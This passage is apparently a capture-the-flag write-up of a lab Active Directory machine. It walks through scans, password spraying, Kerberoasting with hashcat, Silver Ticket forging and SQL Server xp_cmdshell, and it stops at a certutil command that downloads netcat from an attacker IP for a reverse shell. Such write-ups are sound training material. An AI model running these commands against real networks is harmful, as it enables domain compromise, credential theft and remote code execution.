






# Scrambled - Complete Write-up

**Date:** 18 July 2026 

**Machine Rank:** #2678 

**Difficulty:** Medium

**OS:** Windows Server 2019, Build 17763

**Domain:** scrm.local

**IP Address:** 10.129.118.40

---


## Executive Summary

Scrambled is a medium-difficulty Windows Active Directory machine that demonstrates several real-world attack vectors commonly found in enterprise environments. The attack chain progresses through the following phases:

- **Web Enumeration** → **Password Policy Discovery** — The machine hosts an internal website with pages revealing critical information: a password reset policy that sets passwords to match usernames, and an IT support page disclosing usernames.

- **LDAP Enumeration** → **Valid Credentials** — Using the discovered password policy, we enumerate domain users via LDAP and perform password spraying, identifying `ksimpson:ksimpson` as valid credentials.

- **Kerberoasting** → **Service Account Compromise** — With valid domain credentials, we identify `sqlsvc` as a Kerberoastable service account (MSSQLSvc). We request a TGS ticket and crack it offline to reveal the password `Pegasus60`.

- **Silver Ticket Attack** → **SQL Server Access** — Using `sqlsvc`'s NTLM hash and the Domain SID, we create a Silver Ticket to impersonate the Administrator and gain administrative access to the SQL Server instance.

- **SQL Server Exploitation** → **Reverse Shell** — We enable `xp_cmdshell` on SQL Server, download `nc64.exe`, and obtain a reverse shell as `sqlsvc` on the Domain Controller.

- **Database Enumeration** → **Credential Discovery** — While connected to SQL Server, we enumerate the `ScrambleHR` database and discover plaintext credentials for `MiscSvc:ScrambledEggs9900` in the `UserImport` table.

- **Lateral Movement** → **User Flag** — Using PowerShell, we switch to the `MiscSvc` account and retrieve the user flag from the Desktop.

- **Privilege Escalation** → **SYSTEM** — We exploit `SeImpersonatePrivilege` using GodPotato to escalate to `NT AUTHORITY\SYSTEM` and retrieve the root flag.

---

## Machine Information

| Detail | Value |
|:--|:--|
| **Machine Name** | Scrambled |
| **OS** | Windows Server 2019, Build 17763 |
| **Difficulty** | Medium |
| **Domain** | `scrm.local` |
| **Domain Controller** | `dc1.scrm.local` |


---

## Reconnaissance

### Initial Port Scanning

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first, scanning all ports at a high rate to locate open ports, and second, running service version detection and default script scans on the identified open ports.

```bash
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.118.40
Starting Nmap 7.99 at 2026-07-18 05:09 +0000
Nmap scan report for 10.129.118.40
Host is up (0.35s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
4411/tcp  open  found
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49698/tcp open  unknown
49708/tcp open  unknown
56832/tcp open  unknown
Nmap done: 1 IP address (1 host up) scanned in 28.61 seconds
```

### Detailed Service Scan

```bash
hyena@hyena$ nmap -sC -sV -O -p53,80,88,135,139,389,445,464,593,636,1433,3268,3269,4411,5985,9389,49667,49673,49674,49698,49708,56832 10.129.118.40
Starting Nmap 7.99 at 2026-07-18 05:11 +0000
Nmap scan report for 10.129.118.40
Host is up (0.36s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-18 05:17:19Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-07-18T05:20:46+00:00; +5m40s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-07-18T05:20:45+00:00; +5m39s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
|   10.129.118.40:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-07-18T04:58:09
|_Not valid after:  2056-07-18T04:58:09
|_ssl-date: 2026-07-18T05:20:46+00:00; +5m40s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
|_ssl-date: 2026-07-18T05:20:46+00:00; +5m40s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC1.scrm.local
| Not valid before: 2024-09-04T11:14:45
|_Not valid after:  2121-06-08T22:39:53
|_ssl-date: 2026-07-18T05:20:45+00:00; +5m39s from scanner time.
4411/tcp  open  found?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions:
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
56832/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 5m39s, deviation: 0s, median: 5m39s
| smb2-time:
|   date: 2026-07-18T05:20:08
|_  start_date: N/A
```

### Service Analysis

From the scan results, several key services confirm this is a Windows Active Directory Domain Controller:

| Port | Service | Significance |
|------|---------|--------------|
| 53 | DNS | Domain Name Service for domain resolution |
| 88 | Kerberos | Primary authentication protocol for AD |
| 389/636 | LDAP/LDAPS | Directory access for querying AD objects |
| 445 | SMB | File sharing and remote administration |
| 464 | kpasswd5 | Kerberos password change service |
| 1433 | MSSQL | SQL Server (potential for xp_cmdshell) |
| 4411 | Custom Service | "SCRAMBLECORP_ORDERS_V1.0.3" - interesting! |
| 3268/3269 | Global Catalog | Domain-wide directory searches |
| 3389 | RDP | Remote Desktop access |
| 5985 | WinRM | Windows Remote Management (PowerShell remoting) |

The service information reveals:

- **Domain**: `scrm.local`
- **Hostname**: `DC1.scrm.local`
- **OS**: Windows Server 2019 (Build 17763)
- **SMB Signing**: Enabled and required
- **MSSQL**: SQL Server 2019 RTM installed

### DNS Configuration

I add the domain to `/etc/hosts` for proper name resolution during enumeration:

```bash
hyena@hyena$ echo "10.129.118.40 scrm.local DC1.scrm.local DC1" | sudo tee -a /etc/hosts
```

This ensures that DNS lookups for the domain resolve to the target IP, enabling proper Kerberos authentication and service enumeration.

---

## Web Enumeration

### Website Discovery

Visiting the HTTP service on port 80 reveals the "Scramble Corp Intranet" site:



The site has three main sections:
- **Home** - Welcome page with stats
- **Reports** - Reports section
- **IT Services** - IT support and services

### Discovering Hidden Pages

Manual exploration reveals several important pages:

| Path | Purpose |
|:--|:--|
| `/passwords.html` | Password reset policy |
| `/newuser.html` | New user account request form |
| `/salesorders.html` | Sales orders app troubleshooting |
| `/supportrequest.html` | IT support contact |



### Password Reset Policy

The `/passwords.html` page reveals critical information:

> "Our self service password reset system will be up and running soon but in the meantime please call the IT support line and we will reset your password. If no one is available please leave a message stating your username and we will reset your password to be the same as the username."

**Critical Finding:** Password = Username for some accounts. This is a major security weakness.

### New User Page

The `/newuser.html` page reveals:



This page includes a form where the **Manager** field contains a dropdown, potentially revealing existing usernames.

### IT Support Page

The `/supportrequest.html` page reveals the email `support@scramblecorp.com` and instructions that include the username `ksimpson`:



**Critical Finding:** The `ipconfig` command example shows `C:\Users\ksimpson>`, revealing a valid username `ksimpson`.

---

## SMB Share Enumeration

### Guest Access Discovery

During enumeration, I discover that the SMB service allows guest/null session access:

```bash
hyena@hyena$ nxc smb DC1.scrm.local -u 'guest' -p '' --shares
```

```
SMB         DC1.scrm.local  445    DC1              [*] Windows Server 2019 Build 17763 x64 (name:DC1) (domain:scrm.local) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         DC1.scrm.local  445    DC1              [+] scrm.local\guest:
SMB         DC1.scrm.local  445    DC1              [*] Enumerated shares
SMB         DC1.scrm.local  445    DC1              Share           Permissions    Remark
SMB         DC1.scrm.local  445    DC1              -----           -----------    ------
SMB         DC1.scrm.local  445    DC1              ADMIN$                         Remote Admin
SMB         DC1.scrm.local  445    DC1              C$                             Default share
SMB         DC1.scrm.local  445    DC1              IPC$            READ           Remote IPC
SMB         DC1.scrm.local  445    DC1              NETLOGON                       Logon server share
SMB         DC1.scrm.local  445    DC1              Public          READ
SMB         DC1.scrm.local  445    DC1              SYSVOL                         Logon server share
```

---

## Initial Foothold - Password Spray

### LDAP Enumeration for Users

Using null authentication, I enumerate domain users via LDAP:

```bash
hyena@hyena$ nxc ldap DC1.scrm.local -u '' -p '' --users
```

```
LDAP        DC1.scrm.local  389    DC1              [*] None (name:DC1) (domain:scrm.local) (signing:None) (channel binding:Never) (NTLM:False)
LDAP        DC1.scrm.local  389    DC1              [+]
LDAP        DC1.scrm.local  389    DC1              [*] Enumerated 15 domain users: scrm.local
LDAP        DC1.scrm.local  389    DC1              -Username-                    -Last PW Set-       -BadPW-  -Description-
LDAP        DC1.scrm.local  389    DC1              administrator                 2021-11-08 00:35:59 0        Built-in account for administering the computer/domain
LDAP        DC1.scrm.local  389    DC1              Guest                         <never>             0        Built-in account for guest access to the computer/domain
LDAP        DC1.scrm.local  389    DC1              krbtgt                        2020-01-26 19:15:47 0        Key Distribution Center Service Account
LDAP        DC1.scrm.local  389    DC1              tstar                         2021-11-05 14:55:51 0
LDAP        DC1.scrm.local  389    DC1              asmith                        2020-02-08 22:29:01 0
LDAP        DC1.scrm.local  389    DC1              sjenkins                      2020-02-08 23:11:26 0
LDAP        DC1.scrm.local  389    DC1              sdonington                    2020-02-08 23:11:54 0
LDAP        DC1.scrm.local  389    DC1              backupsvc                     2021-10-31 20:49:04 0        Backup system service
LDAP        DC1.scrm.local  389    DC1              jhall                         2021-10-31 21:09:23 0
LDAP        DC1.scrm.local  389    DC1              rsmith                        2021-10-31 21:09:54 0
LDAP        DC1.scrm.local  389    DC1              ehooker                       2021-11-03 19:02:41 0
LDAP        DC1.scrm.local  389    DC1              khicks                        2021-11-01 15:36:08 0
LDAP        DC1.scrm.local  389    DC1              sqlsvc                        2021-11-03 16:32:02 0        SQL server
LDAP        DC1.scrm.local  389    DC1              miscsvc                       2021-11-03 18:07:47 0        Miscellaneous scheduled tasks and services
LDAP        DC1.scrm.local  389    DC1              ksimpson                      2021-11-04 00:30:57 0
```



### Key Users Discovered

| Username | Description | Significance |
|----------|-------------|--------------|
| **Administrator** | Built-in admin | High-value target |
| **sqlsvc** | SQL server | Service account - Kerberoastable |
| **miscsvc** | Miscellaneous tasks | Service account |
| **backupsvc** | Backup system | Service account |
| **ksimpson** | Regular user | Found in support page |

### Password Spray with Username as Password

Based on the password policy (password = username), I spray the credentials:

```bash
hyena@hyena$ nxc smb DC1.scrm.local -u users.txt -p users.txt --continue-on-success
```

```
SMB         DC1.scrm.local  445    DC1              [+] scrm.local\ksimpson:ksimpson
```

**Success!** We have valid credentials: `ksimpson:ksimpson`.

---

## Kerberoasting Attack

### What is Kerberoasting?

Kerberoasting is an attack that targets service accounts in Active Directory. Service accounts have Service Principal Names (SPNs) that are used for Kerberos authentication. Any domain user can request a TGS (Ticket Granting Service) ticket for any service account. The TGS ticket is encrypted with the service account's password hash, so it can be cracked offline.

### Getting the Kerberos TGT

First, I obtain a Kerberos Ticket Granting Ticket (TGT) for ksimpson:

```bash
hyena@hyena$ python3 /usr/share/doc/python3-impacket/examples/getTGT.py -dc-ip DC1.scrm.local scrm.local/ksimpson:ksimpson
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in ksimpson.ccache
```

```bash
hyena@hyena$ export KRB5CCNAME=ksimpson.ccache
```

### Requesting Service Tickets

Using `GetUserSPNs.py`, I request TGS tickets for all service accounts:

```bash
hyena@hyena$ python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-host DC1.scrm.local scrm.local/ksimpson:ksimpson -k -no-pass -target-domain scrm.local -request
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/DC1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2026-07-18 04:58:07.469873
MSSQLSvc/DC1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2026-07-18 04:58:07.469873

$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$3ca9f9d52236fc025e50d5c3292a7c93$876e317288ccea40b61e266319211592b40fd75401a757ff04aeacd9795b3b8e501cc2ac1fa5e314102fdc7af3934db423601013a755fe8b7a9afc7e2c6d493df0fbbeb43eef0d7b98170aaf91e4e0f2460809553b1163bc9a0db226f0f2cbada4678481cbcddb8dff85e7e8ffbcae713f88653e328b5b35375c22b64b8e8eb2a51ec3229172bc4e7fb26646fa92786d021be24a3a7dac3209c9caf3d56df358e43da86b23ed162678ff6be30006726dbd571ac800982ad10ab89e16a62e2d2ef18190f7295d5e888c45ee9a2ed228203dae49e00080ae328430af0c8e1c06d8fd71ed22928a3dc75adb0e80845dc180f0b14d7a5b2a7464a0cabab432a9688c146485fc415624c601fc4b4c740b1d05852e6b5d3e014c26be4f5455ace7212f3e70d4e8efa990d62e0c1d3599edf7cfff21978722939adf8cc861d12a0421867b7a832ab166b93af585a3de4034f978c58e384c14ad7a3384fc60c7e0e568340faed41c2435260a4823bbec5472c1c9ab05aea787b759f436c8a617c9e404f245d5379e91b1cef07db4aa304949e34895b0c4c9a6de30fc4b4f03cd6d1a5a2d840ee9bade9f842d54132b8cbd9529d65c5034c3643745acfeaf6e197f0a1057adec9ed22b6d81a75f7eb38227cacd4309e09e8094126a7cfea39fc2b6862c0ca21b6a9bec11382986dbf70ade5a1b0c3d2c4036ec667ef10734f0db70a3ccb11005c6ff32c65bb32c9c9f86ad31b18c3aa510011591a63728838052cbb0b48434e46f2ff692ee0ff73edeb1c45b0339679eb442abd05527d29e8c3e415168f290132dc77c6979b19239e20ec56e2e3e005596da204059a918cf0f10bf7f6f7d36d37d32aff708a49cf856ba37192e6315feb28a39a63d9a7cb18ad6e390f74203fd0bd99a8f1f805faa669d9e78ab3d2529269532c9960d63b3bfcba5ab24e587b98351e3d4e1557f191fc3cdf1c0a5592dd0188ddb506cfce53dfc02e90d300811f9db59a7961985cd20a098258b5505cda566c6f1b8053d9879e50959bca4845a3c00245f09f9fa79fd252dd195d78e90251df1d0e1bab7e6c07053463720d1828567d97273a36b24f656589e51ed5fe7bbad4f3ae746445b05449e86933182fe5c8287e75d27867e0ce3f8687f9fe901cbae5f364fd1dc15fa311e21faed54487eaf004e6408b5aa65b2738df00d259a0935f61052426393e73446fb02c3cc4fc6a2878bb11a50b6a9546ea11c1dab132242b34b816bf892fe1101dc9c9f2ac017eb04757f4e196f491989723780fd17a75457adf3dc123ae8bd1689b38e00939ea62a5dca8da9e1959d41d3035f4cff84ac4f98bed401ca84bc4b7cd04a0a6bc647acd4db2381db68df5cdfbf7bde2fe6a82b3950585caf21d276d163dc23cd940c321ee18c86817cdd2d9ee555886a5eac4817d6f4721ad0
```

### Cracking the Ticket with Hashcat

```bash
hyena@hyena$ hashcat -m 13100 ticket.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
hashcat (v7.1.2) starting

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$3ca9f9d5...6f4721ad0
Recovered........: 1/1 (100.00%) Digests (total)
```

### The Cracked Password

```bash
hyena@hyena$ cat cracked.txt
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$...:Pegasus60
```

**Password:** `Pegasus60`

---

## Silver Ticket Attack

### What is a Silver Ticket?

A Silver Ticket is a forged Kerberos ticket for a specific service. If we know the NTLM hash of a service account, we can create a ticket that grants us access to that service as any user, including Administrator. Unlike a Golden Ticket (which targets the Domain Controller), a Silver Ticket targets a specific service account.

### Getting the NTLM Hash

```bash
hyena@hyena$ python3 -c "import hashlib,binascii; print(binascii.hexlify(hashlib.new('md4', 'Pegasus60'.encode('utf-16le')).digest()).decode())"
b999a16500b87d17ec7f2e2a68778f05
```

### Getting the Domain SID

```bash
hyena@hyena$ nxc smb DC1.scrm.local -u 'ksimpson' -p 'ksimpson' -k --rid-brute | head -5
SMB         DC1.scrm.local  445    DC1              [*] Windows Server 2019 Build 17763 x64 (name:DC1) (domain:scrm.local) (signing:True) (SMBv1:False) (NTLM:False)
SMB         DC1.scrm.local  445    DC1              [+] scrm.local\ksimpson:ksimpson
SMB         DC1.scrm.local  445    DC1              498: SCRM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         DC1.scrm.local  445    DC1              500: SCRM\administrator (SidTypeUser)
SMB         DC1.scrm.local  445    DC1              501: SCRM\Guest (SidTypeUser)
```

**Domain SID:** `S-1-5-21-2743207045-1827831105-2542523200`

### Creating the Silver Ticket

```bash
hyena@hyena$ python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local -user ksimpson -password ksimpson Administrator
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

---

## SQL Server Exploitation

### Connecting as Administrator

```bash
hyena@hyena$ export KRB5CCNAME=Administrator.ccache
hyena@hyena$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py scrm.local -k -no-pass
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SCRM\administrator dbo@master)>
```

### Enabling xp_cmdshell

```sql
SQL (SCRM\administrator dbo@master)> enable_xp_cmdshell;
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

### Testing Command Execution

```sql
SQL (SCRM\administrator dbo@master)> xp_cmdshell whoami;
output
----------------
scrm\sqlsvc
```

### Getting a Reverse Shell

```sql
xp_cmdshell "certutil -urlcache -f http://10.10.14.15:8081/nc.exe C:\ProgramData\nc.exe";
